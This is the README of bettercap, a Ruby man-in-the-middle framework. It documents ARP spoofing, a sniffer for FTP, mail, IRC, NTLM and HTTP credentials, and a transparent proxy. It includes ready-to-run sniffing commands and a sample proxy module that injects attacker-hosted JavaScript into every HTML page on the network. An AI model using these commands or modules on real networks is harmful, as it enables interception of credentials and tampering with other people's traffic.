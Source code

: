 ![logo](http://www.bettercap.org/images/logo_dark.png)

Copyleft of Simone '[evilsocket](https://twitter.com/evilsocket)' Margaritelli*.  

http://www.bettercap.org/

[![Gem Version](https://badge.fury.io/rb/bettercap.svg)](http://badge.fury.io/rb/bettercap) 
---

**bettercap** is a complete, modular, portable and easily extensible **MITM** tool and framework with every kind of diagnostic
and offensive feature you could need in order to perform a man in the middle attack.

MOTIVATIONS
===

> Yet another MITM tool? C'mon, really?!!?

This is exactly what you are thinking right now, isn't it? :D
But allow yourself to think about it for 5 more minutes ... what you should be really asking is:

> Does a complete, modular, portable and easy to extend MITM tool actually exist?

If your answer is "ettercap", let me tell you something:

* ettercap **was** a great tool, but it made its time.
* ettercap filters **do not** work most of the times, are outdated and hard to implement due to the specific language they're implemented in.
* ettercap is freaking **unstable** on big networks ... try to launch the host discovery on a bigger network rather than the usual /24 ;)
* yeah you can see connections and raw pcap stuff, **nice toy**, but **as a professional researcher I want to see only relevant stuff**.
* unless you're a C/C++ developer, you can't easily extend ettercap or make your own module.

Indeed you could use more than just one tool ... maybe [arpspoof](http://linux.die.net/man/8/arpspoof) to perform the actual poisoning, [mitmproxy](http://mitmproxy.org) to intercept HTTP stuff and inject your payloads and so forth ... I don't know about you, but I **hate** when I need to use a dozen of tools just to perform one single attack, especially when I need to do some black magic in order to make all of them work on my distro or on OSX ... what about the [KISS](https://en.wikipedia.org/wiki/KISS_principle) principle?

So **bettercap** was born ( isn't the name pure genius? XD ) ...

HOST DISCOVERY + ARP MAN IN THE MIDDLE
=== 

You can target the whole network or a single known address, it doesn't really matter, bettercap arp spoofing capabilities and its multiple hosts discovery agents will do the dirty work for you.  
Just launch the tool and wait for it to do its job ... again, [KISS!](https://en.wikipedia.org/wiki/KISS_principle)

![credentials](http://bettercap.org/images/discovery.png)

CREDENTIALS SNIFFER
===

The built in sniffer is currently able to dissect and print from the network the following informations:

- URLs being visited.
- HTTPS host being visited.
- HTTP POSTed data.
- HTTP Basic and Digest authentications.
- FTP credentials.
- IRC credentials.
- POP, IMAP and SMTP credentials.
- NTLMv1/v2 ( HTTP, SMB, LDAP, etc ) credentials.

![credentials](http://bettercap.org/images/credentials.png)

**Examples**

Default sniffer mode, all parsers enabled:
    
    sudo bettercap -X
    
Enable sniffer and load only specified parsers:
    
    sudo bettercap -X -P "FTP,HTTPAUTH,MAIL,NTLMSS"

Enable sniffer + all parsers and parse local traffic as well:
    
    sudo bettercap -X -L
    
MODULAR TRANSPARENT PROXY
===

A modular transparent proxy can be started with the --proxy argument, by default it won't do anything 
but logging HTTP requests, but if you specify a **--proxy-module** argument you will be able to load
your own modules and manipulate HTTP traffic as you like.  
You can find some example modules in the [dedicated repository](https://github.com/evilsocket/bettercap-proxy-modules).

![credentials](http://bettercap.org/images/proxy.png)

**Examples**

Enable proxy on default ( 8080 ) port with no modules ( quite useless ): 
    
    sudo bettercap --proxy

Enable proxy and use a custom port:
    
    sudo bettercap --proxy --proxy-port=8081
    
Enable proxy and load the module **hack_title.rb**:
    
    sudo bettercap --proxy --proxy-module=hack_title.rb

Disable spoofer and enable proxy ( stand alone proxy mode ):

    sudo bettercap -S NONE --proxy

**Modules**

You can easily implement a module to inject data into pages or just inspect the
requests/responses creating a ruby file and passing it to bettercap with the --proxy-module argument, 
the following is a sample module that injects some contents into the title tag of each html page.

```ruby
class HackTitle < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Hacking http://#{request.host}#{request.url} title tag"
      # make sure to use sub! or gsub! to update the instance
      response.body.sub!( '<title>', '<title> !!! HACKED !!! ' )
    end
  end
end
```

BUILTIN HTTP SERVER
===

You want to serve your custom javascript files on the network? Maybe you wanna inject some custom
script or image into HTTP responses using a transparent proxy module but you got no public server
to use? **no worries dude** :D  
A builtin HTTP server comes with bettercap, allowing you to serve custom contents from your own
machine without installing and configuring other softwares such as Apache, nginx or lighttpd. 

You could use a **proxy module** like the following:

```ruby
class InjectJS < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Injecting javascript file into http://#{request.host}#{request.url} page"
      # get the local interface address and HTTPD port
      localaddr = Context.get.ifconfig[:ip_saddr]
      localport = Context.get.options[:httpd_port]
      # inject the js
      response.body.sub!( '</title>', "</title><script src='http://#{localaddr}:#{localport}/file.js' type='text/javascript'></script>" )
    end
  end
end
```

And then use it to inject the js file in every HTTP response of the network, using bettercap itself
to serve the file:

    sudo bettercap --httpd --http-path=/path/to/your/js/file/ --proxy --proxy-module=inject.rb 

HOW TO INSTALL
===

**Stable Release ( GEM )**
    
    gem install bettercap
    
**From Source**
    
    git clone https://github.com/evilsocket/bettercap
    cd bettercap
    gem build bettercap.gemspec
    sudo gem install bettercap*.gem

DEPENDS
===

All dependencies will be automatically installed through the GEM system, in some case you might need to install some system
dependency in order to make everything work:

    sudo apt-get install ruby-dev libpcap-dev
   
This should solve issues such as [this one](https://github.com/evilsocket/bettercap/issues/22).

